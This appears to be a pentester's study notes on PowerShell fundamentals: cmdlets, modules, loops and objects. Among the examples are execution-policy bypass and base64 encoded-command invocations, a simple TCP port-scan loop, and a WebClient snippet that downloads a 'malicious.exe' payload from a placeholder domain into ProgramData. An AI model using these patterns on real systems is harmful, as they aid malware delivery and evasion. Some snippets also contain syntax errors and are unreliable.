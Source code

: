 # Powershell for Pentesters

## What is Powershell? 


- Powershell is a powerful built-in CLI or "shell" also task-oriented scripting language
- Mostly used by admins
- Built on top of .NET
- Scripts end with ".ps1"
- Version 5.0 onward introduce some hurdles regarding logging and restrictive modes
- Powershell 6.0 is available MacOS and Linux also as Docker image

## Fundamentals

```C:\Windows\system32\WindowsPowerShell\v1.0\powershell.exe``` where exe files of powershell stays.

For 64-bit it stays under system32 directory. 


```ps1
# You can learn like that
PS C:\Windows\system32\WindowsPowerShell\v1.0> [Environment]::Is64BitProcess
True 
```

You can learn detail with command below

```ps1
C:\> powershell /?
```


Execution Policy 

```ps1
powershell.exe -ExecutionPolicy Bypass ./shell.ps1
powershell.exe -ExecutionPolicy Unrestricted ./shell.ps1
powershell.exe -Command Get-Process
powershell.exe -Command "& {Get-Eventlog -Logname security}"
```

EncodedCommand: Used to executed base64 command

```ps1
powershell.exe -EncodedCommand $encodedCommand
```

- Like Man pages you can reach Get-Help section of all commands
  - ```Get-Help Get-Help```
  - ```Get-Help Get-Process -Full``` Gives full result regarding that command
  - ```Get-Help Get-Process -Examples``` you can learn examples of that commands You can updata man pages with Update-Help command
- You can learn commands by tunning the command so you don't need to memorize all. 


### Cmdlets

- You can change formats of command results
  - For ex. ```Get-Childitem | Format-List *```

- After learning all these commands you can pipe them to get objects
  - For ex. ```Get-Childitem | Sort-Object -Uniqe | Select-Object Basename```

- Redirection works as same like in other OS {<,>}

- You can use different format also
  - ```Get-Process notepad | Format-List Path```
  - or even ```Get-Process notepad | Format-List Path,Id,ProcessName```

- ```Get-WmiObject -class win32_operatingsystem | Select -Property *```

- We can use ```fl``` as alias to Format-List

- If you want you can create csv file you can use Export-Csv

  - ```Get-WmiObject -Class win32_service | Select-Object Name, ProcessID | export-csv C:\Users\public\Documents\try.csv```
  - In order to see Registry hives ```cd HKLM:\```
  - Select-String is important command
    - ```Select-String -Path C:\Users\public\Documents\*.txt -Pattern yoursearch*```
- Get-Content
  - cat is same as Get-Content

- To learn services which are running and available 
  - ```Get-Service```
  - ```Get-Service | Select-Object Name```
  - ```Get-Service "n*" | Sort-Object status -Descending```


### Modules

- Modules can contain powershell scripts and code files. And they are in directories.

- Modules are importet in powershell session.

- To obtain list currently imported modules ```Get-Module```

- ```Get-Module -ListAvailable``` we can learn all modules that we can import.

- In order to import module ```Import-Module .\new_module.psm1```

- $Env:PSModulePath should include the module that we need to import

- You need to create a directory inside one of these paths and upload all files in that directory.

- After uploading these files in that directory run basically

- Import-Module ModuleName and confirm it Get-Module

- Then you can learn module commands by running Get-Command -Module AADInternals

- To Learn one command ```Get-Help Add-AADIntEASDevice```

### Scripts

#### Intro for Scripts

- PowerShell Scripts end with .\ps1
- 1 refer not to a version but PowerShell engine itself
- In order to run script just .\script.ps1

```Param([parameter (mandatory=$true)][string]$file) Get-Content "$file"```

That script takes an argument and later write content of it. or you can put a variable inside that parameter like ```$file= try.txt Get-Content $file``` 

#### Loop Statements

- for()
- foreach()
- while()
- do {something}while()
- do {something}until)()
- dLearn details with
   ```ps1  
    Get-Help about_Foreach
    Get-Help about_For
    Get-Help about_Do
    Get-Help about_While 
    ```
- Examples
```ps1
Foreach()
        $services = Get-Service
        foreach ($i in $services){ $i.Name }
```
- or also 

  ``` Get-Service | ForEach-Object {$_.Name}``` here $_ is giving you ability to iterate it. 

- Where-Object
  - it gives you ability to find values
  - ``` Get-ChildItem C:\Users\ | Where-Object {$_.Name -match "public"}```
```ps1
$ports = {444,81}
$ip = "127.0.0.1"
foreach ($port in $ports) {try{$socket=New-Object System.Net.Sockets.TcpClient($ip,$port);} catch{}; if($socket -eq $null) {echo $ip":"$port" - Closed ";} else{echo $ip":"$port - "Open"; $socket - $null;}}
```

#### Objects

- We can learn objects ```Get-Process | Get-Member -MemberType Method Get-Process -Name "chrome" | Kill ```
- Also with ```New-Object``` creating .Net Framework object or COM object is possible
- Creating new object based on .NET class
```ps1 
$webclient = New-Object System.Net.WebClient
$url = "https://domain.example.com/malicious.exe"
$file = "C:\ProgramData\malicious.exe"
$webclient.DownloadFile($url,$file)
```
- Here webclient is a class from .NET class and that class Download file method works with two variable.
